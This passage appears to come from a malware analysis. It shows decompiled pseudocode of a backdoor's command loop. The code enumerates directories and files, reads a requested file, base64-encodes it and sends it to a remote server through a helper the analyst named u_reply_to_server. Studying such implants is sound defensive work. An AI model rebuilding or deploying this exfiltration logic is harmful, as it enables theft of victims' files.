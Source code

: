 ```c
            FileName = S_P_CoreLib_System_IO_Path__GetFileName(*(v19 + 8LL * v20 + 16));
            if ( FileName )
              S_P_CoreLib_System_Text_StringBuilder__Append_25(v11, FileName + 12, *(FileName + 8));
            S_P_CoreLib_System_Text_StringBuilder__Append_25(v11, &off_7FF7D366A140 + 12, 2LL);
            ++v20;
          }
          while ( v21 > v20 );
        }
        v23 = u_decr_string(&glo_files_banner); // === files ===
        if ( v23 )
          S_P_CoreLib_System_Text_StringBuilder__Append_25(v11, v23 + 12, *(v23 + 8));
        S_P_CoreLib_System_Text_StringBuilder__Append_25(v11, &off_7FF7D366A140 + 12, 2LL);
        v24 = u_decr_string(&glo_dot);
        v25 = *(v15 + 8);
        v26 = RhpNewFast(&unk_7FF7D369D718);
        v27 = S_P_CoreLib_System_IO_Directory__InternalEnumeratePaths(v24, &off_7FF7D366B210, 1LL, v25);
        S_P_CoreLib_System_Collections_Generic_List_1_System___Canon____ctor_1(v26, v27);
        v28 = sub_7FF7D3649D70(v26);
        v29 = 0;
        v30 = *(v28 + 8);
        if ( v30 > 0 )
        {
          do
          {
            v31 = S_P_CoreLib_System_IO_Path__GetFileName(*(v28 + 8LL * v29 + 16));
            if ( v31 )
              S_P_CoreLib_System_Text_StringBuilder__Append_25(v11, v31 + 12, *(v31 + 8));
            S_P_CoreLib_System_Text_StringBuilder__Append_25(v11, &off_7FF7D366A140 + 12, 2LL);
            ++v29;
          }
          while ( v30 > v29 );
        }
        v32 = S_P_CoreLib_System_Text_StringBuilder__ToString(v11);
        u_reply_to_server(v32);
      }
      v33 = *(v4 + 16);
      v34 = u_decr_string(&glo_cat);
      if ( !String__Equals_0(v33, v34) )
        break;
      if ( v5 <= 1 )
        goto LABEL_9;
      AllBytes = S_P_CoreLib_System_IO_File__ReadAllBytes(*(v4 + 24));
      v36 = S_P_CoreLib_System_Convert__ToBase64String(AllBytes);
      u_reply_to_server(v36);
    }
    v37 = *(v4 + 16);
    v38 = u_decr_string(&glo_exit);
    result = String__Equals_0(v37, v38);
    if ( result )
      return result;
    v40 = u_decr_string(&glo_bad_cmd);
    u_reply_to_server(v40);
  }
}
```
